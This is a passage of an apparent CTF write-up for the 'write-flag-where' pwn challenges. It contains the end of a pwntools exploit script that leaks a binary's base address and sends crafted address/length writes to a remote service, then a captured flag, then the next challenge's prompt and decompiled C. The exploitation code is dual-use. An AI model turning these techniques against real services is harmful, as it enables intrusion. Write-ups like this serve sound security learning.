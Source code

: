 ```python
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
p.recvuntil(b"It's the challenge from before, but I've removed all the fluff\n")
e.address = int(p.recv(12),16)
p.recv()
log.info(f"{hex(e.address)}")
p.recvuntil(b"[vsyscall]")

p.sendline(f"{hex(e.sym.main+599)} 3".encode())
sleep(1)
p.sendline(f"{hex(e.sym.main+599+3)} 2".encode())
sleep(1)
p.sendline(f"{hex(e.address+0x20d5)} 50".encode())
sleep(1)
p.sendline(b"--")
p.interactive()
```

![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/fa2d6989-6b4b-40cd-95e8-e877fe8d5027)

Flag: `CTF{impr355iv3_6ut_can_y0u_s01v3_cha113ng3_3?}`

## WRITE-FLAG-WHERE3
```
Your skills are considerable, I'm sure you'll agree
But this final level's toughness fills me with glee
No writes to my binary, this I require
For otherwise I will surely expire
```
Attachment: [wtw3.zip](https://github.com/robbert1978/robbert1978.github.io/files/11866401/wtw3.zip)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[9]; // [rsp+0h] [rbp-70h] BYREF
  unsigned int n; // [rsp+4Ch] [rbp-24h] OVERLAPPED BYREF
  unsigned __int64 n_4; // [rsp+50h] [rbp-20h] BYREF
  int v7; // [rsp+58h] [rbp-18h]
  int v8; // [rsp+5Ch] [rbp-14h]
  int v9; // [rsp+60h] [rbp-10h]
  int v10; // [rsp+64h] [rbp-Ch]
  int v11; // [rsp+68h] [rbp-8h]
  int fd; // [rsp+6Ch] [rbp-4h]

  fd = open("/proc/self/maps", 0, envp);
  read(fd, maps, 0x1000uLL);
  close(fd);
  v11 = open("./flag.txt", 0);
  if ( v11 == -1 )
  {
    puts("flag.txt not found");
    return 1;
  }
  else
  {
    if ( read(v11, &flag, 0x80uLL) > 0 )
    {
      close(v11);
      v10 = dup2(1, 1337);
      v9 = open("/dev/null", 2);
```
